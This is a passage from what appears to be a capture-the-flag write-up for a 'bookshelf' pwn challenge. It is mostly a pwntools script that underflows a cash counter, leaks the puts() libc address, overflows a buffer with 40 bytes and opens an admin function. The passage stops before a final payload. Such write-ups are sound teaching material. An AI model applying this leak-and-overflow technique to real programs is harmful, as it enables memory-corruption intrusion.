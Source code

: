 Lets try dumping a lot of characters inside. As I'm too lazy to do the integer underflow everytime I reopened the program, I wrote a `pwntools` script to automate it for me. It's really messy by the way.

```py
from pwn import *

HOST = "chal.pctf.competitivecyber.club"
PORT = 4444

elf = context.binary = ELF("bookshelf")
libc = ELF("libc.so.6")

DEBUG = len(sys.argv) == 1

if DEBUG:
    p = process()
else:
    p = remote(HOST, PORT)

# Underflow cash to get address of puts()
it = 0
while True:
    res = p.recvuntil(b"4) Check out")
    p.sendline(b"2")
    res = p.recvuntil(b">>")
    p.sendline(b"2")

    res = p.recvuntil(b">>")
    p.sendline(b"y")
    res = p.recvuntil(b">>")
    if b"You don't have enough cash!" not in res and it > 2:
        p.recvuntil(b"4) Check out")
        break

    it += 1

# Get the address of puts()
p.sendline(b"2")
res = p.recvuntil(b">>")
p.sendline(b"3")
res = p.recvuntil(b"glory")

puts_addr = p.recvn(15).strip()
p.sendline(b"n")
p.recvuntil(b"4) Check out")

# Write 40 characters to writebook function
p.sendline(b"1")
p.recvuntil(b"!")
p.sendline(b"y")
p.sendline(b"A" * 40)

p.recvuntil(b"out")
p.recvuntil(b"out")

# Go into admin function
p.sendline(b"3")
p.recvuntil(b"...")

# Attach GDB for debugging
if DEBUG:
    context.terminal = ["tmux", "splitw", "-h"]
    gdb.attach(p)
```